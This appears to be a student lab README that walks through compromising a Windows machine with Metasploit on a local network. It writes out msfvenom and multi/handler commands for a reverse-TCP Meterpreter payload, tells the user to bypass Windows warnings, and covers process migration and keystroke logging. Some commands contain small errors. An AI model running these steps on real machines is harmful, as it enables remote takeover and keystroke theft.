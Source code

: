 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![e1](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/c7a74692-d0e4-4f97-bb10-e8104290e91e)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![e2](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/7723aa1c-03d7-4c13-b785-36fbdae26e91)



copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![e3](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/a9ba876a-8c51-4be1-9d34-d3dc92906310)



Start apache server
sudo systemctl apache2 start

## OUTPUT:
![e4](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/4c07a053-12b8-449d-b513-9c820d28158a)


Check the status of apache2

## OUTPUT:
![e5](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/e7bb8275-972f-4fbf-89ab-634940b86d91)



## Invoke msfconsole:

## OUTPUT:
![e6](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/d277952d-93e4-4242-b71a-da825ca40877)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![e7](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/2561cb91-c550-4fa7-ae0f-f43d31864c9c)



Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

## OUTPUT:
![e8](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/797df7a5-f3e4-42cb-9b79-6e7d0c971653)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

## OUTPUT:
![e9](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/f37ef54c-5700-47bd-979e-0a5212fe6cc3)



Bypass any warning boxes, double-click the file, and allow it to run.

## OUTPUT:
![e10](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/c0a15803-60fb-46e7-a729-49d358fdf532)


On kali give the command exploit

## OUTPUT:
![e11](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/a32411d4-93f4-47a2-bad4-d31f58b20ab8)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:
![e12](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/c0ac12ba-c653-423d-a2ff-db62dac07f89)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![e13](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/39cf986d-37ed-482c-b35d-ce2e162dbd77)


## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT:
![e14](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/db28d5ea-d531-42d9-9d7d-3afe2b780e83)


![e15](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/c9da18de-67d3-425d-9a2d-bebae28936a8)


keyscan_dump	Shows the keystrokes captured so far

## OUTPUT:
![e16](https://github.com/Vishwarathinam/Compromising-windows-using-Metasploit/assets/95266350/61704804-5843-4088-a922-a4ed6f23f85b)























## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
